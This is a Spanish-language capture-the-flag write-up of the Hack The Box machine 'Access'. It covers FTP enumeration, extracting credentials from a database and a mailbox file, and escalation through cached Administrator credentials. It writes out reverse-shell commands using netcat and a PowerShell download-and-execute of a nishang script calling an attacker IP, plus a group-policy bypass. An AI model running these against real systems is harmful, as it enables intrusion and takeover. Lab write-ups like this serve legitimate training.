

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Access Writeup | Easy"
date = "2024-08-01"
description = ""
tags = [
    "HackTheBox",
    "WifineticTwo",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "Exploit",
    "Windows",
    "FTP Enumeration (using binary mode)",
    "PST Files (pst-utils)",
    "MDB Files (mdbtools)",
    "Bypassing anti-executable GPO",
    "Abusing cached credentials"
]

+++

# Hack The Box: Access Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Access"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration
```shell
$ rustscan -a 10.129.222.164 --ulimit 5000 -g
10.129.222.164 -> [21,23,80]
```

```shell
$ nmap -p21,23,80 -sCV 10.129.22.164 -Pn -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 21:04 CEST
Nmap scan report for 10.129.22.164
Host is up.

PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
23/tcp filtered telnet
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```
Los puertos aparecen como filtered, pero nos podemos hacer una idea de que servicios hay detrás.

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.22.164 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 21:06 CEST
Nmap scan report for 10.129.22.164
Host is up.
All 1500 scanned ports on 10.129.22.164 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.42 seconds
```

# FTP Enumeration
Parece que podemos acceder al FTP de forma anónima.
```shell
$ ftp 10.129.222.164
Connected to 10.129.222.164.
220 Microsoft FTP Service
Name (10.129.222.164:pointedsec): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> 
```

Dentro del directorio `Backups` vemos un archivo `backup.mdb` y dentro del directorio `Engineer` vemos el archivo `Access Control.zip`

Al descargar los archivos me ha dado un error, pero parece que los archivos están íntegros, o al menos los magic numbers...

```shell
$ file backup.mdb 
backup.mdb: Microsoft Access Database
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/access/content]
└──╼ [★]$ file Access\ Control.zip 
Access Control.zip: Zip archive data, at least v2.0 to extract, compression method=AES Encrypted
```

Haciendo un `strings backup.mdb` podemos sacar algunas cadenas de texto interesantes.
- access4u@security
- backup_admin
- admin
- 4555555555555Q

# HTTP Enumeration
El sitio web parece que es un panel para visualizar una cámara de seguridad en un CPD.



Después de fuzzear el servicio HTTP, no encontré nada,y el puerto `23` que supuestamente corresponde a telnet no me envía cabeceras ni nada por el estilo, así que volví a probar con el FTP a ver si era capaz de descargar los archivos íntegros ya que no lo estaban.

# FTP Enumeration (again)
Entonces intenté descargar los archivos en otro modo de transferencia ya que FTP permite el modo `binary` y el modo `ASCII (por defecto)`

```shell
ftp> type binary
200 Type set to I.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |*********************************************|  5520 KiB    2.28 MiB/s    00:00 ETA
226 Transfer complete.
```
Y ahora sí que tengo los archivos íntegros.

Vemos que la base de datos de access tiene muchas tablas 
```shell
$ mdb-tables backup.mdb 
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc auth_group_permissions auth_message auth_permission auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate FaceTempEx FingerVeinEx TEMPLATEEx
```

Vemos una tabla que me llama la atención, `auth_user` que contiene credenciales.
```shell
$ mdb-json backup.mdb auth_user
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

`engineer:access4u@security`

¿Ahora bien, como uso estas credenciales?
En el FTP no he podido utilizar ninguna de las dos cuentas.

# Foothold
El archivo .zip está protegido con contraseña.

Y si utilizamos la credencial encontrada..
```shell
Enter password (will not be echoed):
Everything is Ok         

Size:       271360
Compressed: 10870
```

Tiene un archivo `Access Control.pst`
Estos archivos son una tabla de almacenamiento que se utiliza para almacenar copias de mensajes, calendarios... Por lo cual podría contener información sensible..

Vamos a instalar un paquete llamado `pst-utils` para poder jugar con este archivo.
`$ sudo apt-get install pst-utils -y`

Ahora con `readpst` podemos conseguir un archivo .mbox que son mensajes que podríamos leer.
```shell
$ readpst Access\ Control.pst
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```

Nos devuelve el archivo `Access Control.mbox`

```shell
$ cat "Access Control.mbox"
From "john@megacorp.com" Fri Aug 24 01:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-1304609787_-_-"


----boundary-LibPST-iamunique-1304609787_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-1304609787_-_-"

--alt---boundary-LibPST-iamunique-1304609787_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John


--alt---boundary-LibPST-iamunique-1304609787_-_-
Content-Type: text/html; charset="us-ascii"

<html xmlns:v="urn:schemas-microsoft-com:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:w="urn:schemas-microsoft-com:office:word" xmlns:m="http://schemas.microsoft.com/office/2004/12/omml" xmlns="http://www.w3.org/TR/REC-html40"><head><meta http-equiv=Content-Type content="text/html; charset=us-ascii"><meta name=Generator content="Microsoft Word 15 (filtered medium)"><style><!--
/* Font Definitions */
@font-face
	{font-family:"Cambria Math";
	panose-1:0 0 0 0 0 0 0 0 0 0;}
@font-face
	{font-family:Calibri;
	panose-1:2 15 5 2 2 2 4 3 2 4;}
/* Style Definitions */
p.MsoNormal, li.MsoNormal, div.MsoNormal
	{margin:0in;
	margin-bottom:.0001pt;
	font-size:11.0pt;
	font-family:"Calibri",sans-serif;}
a:link, span.MsoHyperlink
	{mso-style-priority:99;
	color:#0563C1;
	text-decoration:underline;}
a:visited, span.MsoHyperlinkFollowed
	{mso-style-priority:99;
	color:#954F72;
	text-decoration:underline;}
p.msonormal0, li.msonormal0, div.msonormal0
	{mso-style-name:msonormal;
	mso-margin-top-alt:auto;
	margin-right:0in;
	mso-margin-bottom-alt:auto;
	margin-left:0in;
	font-size:11.0pt;
	font-family:"Calibri",sans-serif;}
span.EmailStyle18
	{mso-style-type:personal-compose;
	font-family:"Calibri",sans-serif;
	color:windowtext;}
.MsoChpDefault
	{mso-style-type:export-only;
	font-size:10.0pt;
	font-family:"Calibri",sans-serif;}
@page WordSection1
	{size:8.5in 11.0in;
	margin:1.0in 1.0in 1.0in 1.0in;}
div.WordSection1
	{page:WordSection1;}
--></style><!--[if gte mso 9]><xml>
<o:shapedefaults v:ext="edit" spidmax="1026" />
</xml><![endif]--><!--[if gte mso 9]><xml>
<o:shapelayout v:ext="edit">
<o:idmap v:ext="edit" data="1" />
</o:shapelayout></xml><![endif]--></head><body lang=EN-US link="#0563C1" vlink="#954F72"><div class=WordSection1><p class=MsoNormal>Hi there,<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>The password for the &#8220;security&#8221; account has been changed to 4Cc3ssC0ntr0ller.&nbsp; Please ensure this is passed on to your engineers.<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>Regards,<o:p></o:p></p><p class=MsoNormal>John<o:p></o:p></p></div></body></html>
--alt---boundary-LibPST-iamunique-1304609787_-_---

----boundary-LibPST-iamunique-1304609787_-_---
```

Podemos leer una credencial de este archivo.
`security:4Cc3ssC0ntr0ller`

Ahora, si nos conectamos por telnet y esperamos un poco, nos responderá pidiendo un usuario y contraseña y podemos iniciar sesión como el usuario `security`.
```shell
login:security        
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```

Esta shell de telnet no funciona de forma óptima, así que me pasé el binario de `netcat` para mandarme una reverse shell pero...
```cmd
C:\Users\security>.\nc.exe 10.10.14.80 443 -e cmd.exe
This program is blocked by group policy. For more information, contact your system administrator.
```

Así que me transmití el típico script de nishang, `Invoke-PowerShellTcp.ps1`

Modifiqué el script añadiendo la línea `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.80 -Port 443` al final del archivo.

Y ahora, nos mandamos la revshell..
```cmd
C:\Users\security>powershell -c IEX (New-Object Net.Webclient).DownloadString('http://10.10.14.80:8081/Invoke-PowerShellTcp.ps1')
```

Y ya estamos en una consola mas fácil para operar
```powershell
PS C:\Users\security> whoami
access\security
PS C:\Users\security>
```

# Privilege Escalation
Iba a pasar el `winpeas` pero no tenía permisos suficientes ya que parece que hay una GPO que no me lo permite.
```powershell
PS C:\Users\security> .\winPEASx64.exe 
PS C:\Users\security> Invoke-PowerShellTcp : Program 'winPEASx64.exe' failed to execute: This program is blocked by group policy. For more information, contact your system administrator
At line:1 char:17
+ .\winPEASx64.exe <<<<  .
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.14.80 -Port 443
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Invoke-PowerShellTcp
```

Enumerando un poco la máquina manualmente, vemos que en el escritorio del usuario público hay un acceso directo.
```powershell
PS C:\USers\Public\Desktop> dir


    Directory: C:\USers\Public\Desktop


Mode                LastWriteTime     Length Name                                                                                                                                            
----                -------------     ------ ----                                                                                                                                            
-a---         8/22/2018  10:18 PM       1870 ZKAccess3.5 Security System.lnk
```

Siempre es interesante echar un vistazo a los accesos directos ya que a veces la secuencia de ejecución contiene credenciales, o se pueden ver cosas que no deberían estas.
```powershell
PS C:\USers\Public\Desktop> type "ZKAccess3.5 Security System.lnk"
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?�M?:*wWindowsV1MV?System32???:?�MV?*?System32X2P?:?
                runas.exe???:1??:1?*Yrunas.exeL-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                     ?wN?�?]N?D.??Q???`?Xaccess?_???8{E?3
                               O?j)?H???
                                        )??[?_???8{E?3
                                                      O?j)?H???
                                                               )??[?	??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```

Y aquí podemos ver que se está ejecutando el binario runas.exe y utilizando la cuenta de administrador y la flag /savecred, por lo cual, las credenciales del Administrador deben de estar cacheadas.
`..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred`

```powershell
PS C:\USers\Public\Desktop> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrato
```

Y sí, tienen pinta que están cacheadas.

Ahora, aprovechando el `netcat` que me había transmitido antes, como esto en principio lo va a ejecutar le usuario Administrador, no va a haber GPO que le restrinja la ejecución.
```powershell
PS C:\USers\security> runas /user:ACCESS\Administrator /savecred "cmd.exe /c C:\Users\security\nc.exe 10.10.14.80 443 -e cmd.exe"
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.254.85] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```

¡Y ya estaría!

Happy Hacking! 🚀